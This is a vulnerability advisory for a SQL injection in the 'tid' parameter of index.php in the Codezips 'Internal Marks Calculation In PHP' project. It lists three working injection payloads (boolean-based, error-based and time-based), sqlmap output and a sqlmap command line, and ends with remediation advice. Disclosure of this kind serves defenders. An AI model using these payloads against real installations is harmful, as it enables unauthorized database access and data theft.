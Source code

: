 # Codezips Internal Marks Calculation In PHP With Source Code 1.0 index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Internal Marks Calculation In PHP With Source Code
## Vendor Homepage
+ https://codezips.com/php/internal-marks-calculation-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ index.php
## VERSION(S)
+ V1.0
## Software Link
+ https://codeload.github.com/codezips/internal-marks-calculator-php/zip/master
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'index.php' file of the 'Internal Marks Calculation In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "tid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "Internal Marks Calculation In PHP With Source Code", N3xu5Cr4ck37g  discovered a critical SQL injection vulnerability in the "index.php" file. This vulnerability stems from insufficient user input validation of the 'tid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ error-based
+ time-based blind
## Vulnerability location:
+ 'tid' parameter 
## Payload: 
```sql
    tid=111' AND 9791=(SELECT (CASE WHEN (9791=9791) THEN 9791 ELSE (SELECT 2296 UNION SELECT 6468) END))-- -&tpassword=111&tsub=111&Login=提交

    tid=111' OR ROW(6894,5488)>(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(6894=6894,1))),0x7178787671,FLOOR(RAND(0)*2))x FROM (SELECT 6693 UNION SELECT 2283 UNION SELECT 9539 UNION SELECT 5302)a GROUP BY x)-- QeVT&tpassword=111&tsub=111&Login=提交

    tid=111' AND (SELECT 3095 FROM (SELECT(SLEEP(5)))ZZiQ)-- ZscK&tpassword=111&tsub=111&Login=提交
``` 
```makefile
    Parameter: tid (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: tid=111' AND 9791=(SELECT (CASE WHEN (9791=9791) THEN 9791 ELSE (SELECT 2296 UNION SELECT 6468) END))-- -&tpassword=111&tsub=111&Login=提交

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: tid=111' OR ROW(6894,5488)>(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(6894=6894,1))),0x7178787671,FLOOR(RAND(0)*2))x FROM (SELECT 6693 UNION SELECT 2283 UNION SELECT 9539 UNION SELECT 5302)a GROUP BY x)-- QeVT&tpassword=111&tsub=111&Login=提交

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tid=111' AND (SELECT 3095 FROM (SELECT(SLEEP(5)))ZZiQ)-- ZscK&tpassword=111&tsub=111&Login=提交
```
+ ![1](https://github.com/user-attachments/assets/12e5d9de-ca99-4541-b9be-0230f3c38bd3)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8115/" --data="tid=111&tpassword=111&tsub=111&Login=提交" --cookie="PHPSESSID=7j39lvbnsifgoe8mtp8ibac3s2" --dbms=mysql --batch --dbs --risk=3 --level=5
```
+ ![2](https://github.com/user-attachments/assets/c699a4e0-8d88-4df3-96ff-a98f84b283be)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
